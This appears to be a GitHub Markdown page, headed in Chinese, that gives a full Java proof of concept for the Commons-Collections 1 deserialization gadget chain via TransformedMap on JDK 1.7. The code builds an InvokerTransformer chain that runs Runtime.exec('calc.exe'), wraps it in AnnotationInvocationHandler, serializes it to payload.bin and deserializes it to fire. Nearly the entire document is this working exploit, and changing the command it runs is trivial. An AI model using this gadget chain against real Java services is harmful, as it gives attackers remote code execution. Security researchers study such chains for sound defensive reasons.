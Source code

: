 ## CommonCollections1_TransformedMap

本机环境：

JDK版本：jdk1.7u_51

CC版本：Commons-Collections 3.1

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Retention;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.util.HashMap;
import java.util.Map;

public class CommonCollections1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);

        Map innerMap = new HashMap();
        innerMap.put("value", "value");
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        
        Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Target.class, outerMap);

        FileOutputStream f = new FileOutputStream("payload.bin");
        ObjectOutputStream fout = new ObjectOutputStream(f);
        fout.writeObject(instance);

        FileInputStream fi = new FileInputStream("payload.bin");
        ObjectInputStream fin = new ObjectInputStream(fi);

        fin.readObject();
    } }
```
